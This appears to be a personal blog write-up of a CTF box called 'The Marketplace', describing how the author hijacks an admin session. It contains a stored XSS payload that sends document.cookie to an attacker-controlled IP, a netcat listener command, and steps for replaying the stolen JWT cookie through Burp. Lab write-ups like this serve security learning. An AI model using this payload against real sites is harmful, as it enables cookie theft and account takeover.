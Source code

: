 +++
title = "The Marketplace - XSS / SQLi Box"
description = ""
tags = [
    "go",
    "golang",
]
date = "2022-02-05"
categories = [
    "marketplace",
    "pentesting",
    "ctf",
]
image = "https://sludgeassets.s3.us-east-1.amazonaws.com/headers/satanic-16.jpg"
weight = 5
+++

---

<b>
# 'The Marketplace'

## _"I'm in ya inbox, I got alllll the cookies..."_  ✨Magic ✨


This was a good box, I feel like XSS is starting to click. Last time I was just staring at the alert like a talking dog.  

I ran Nmap with service and default scripts, found a /admin we can't access, an up to date SSH port, and port 80 open as well as Node.js on a high port. 

Poked around the site, created an account, started testing input fields with <_script>alert('itsachinoparty')</script_>. I found forms on the new listing page have reflecton points.

***TODO: Explain terms fully for beginners

I decided to try a new listing and posted this. Let's break it down:

***TODO: You know...finish breaking it down

 <_script> document.location='http://10.6.110.246:8001/XSS/evilLink.php?c='+document.cookie </script_>"
Nc -knlvp 8001



[![N|Solid](https://s3.us-east-1.amazonaws.com/sludge.one/img/cookiegrab.jpg)](https://sludge.one/marketplace)

Going to report the posting to the admin, which will activate the script. Our post is 5, so if we just change the path to "report" and it feed it that as a parameter...

[![N|Solid](https://s3.us-east-1.amazonaws.com/sludge.one/img/reportadmin.jpg)](https://sludge.one/marketplace)

 I have a netcat listener on port 8001  
 
[![N|Solid](https://s3.us-east-1.amazonaws.com/sludge.one/img/admincookie.jpg)](https://sludge.one/marketplace)

We go for that /admin page we saw earlier, setting burp to intercept the request.

Next, we replace our cookie with the admin cookie, and then forward it on...

[![N|Solid](https://sludgeassets.s3.us-east-1.amazonaws.com/burpadmin.png)](https://sludgeassets.s3.us-east-1.amazonaws.com/burpadmin.png)

I would have you note that that JWT token (denoted by a cookie starting with eyJ and looking like that) ends with _ASS. This doesn't help us, it's just funny. I, too, end with _ASS, or possibly _FEET.

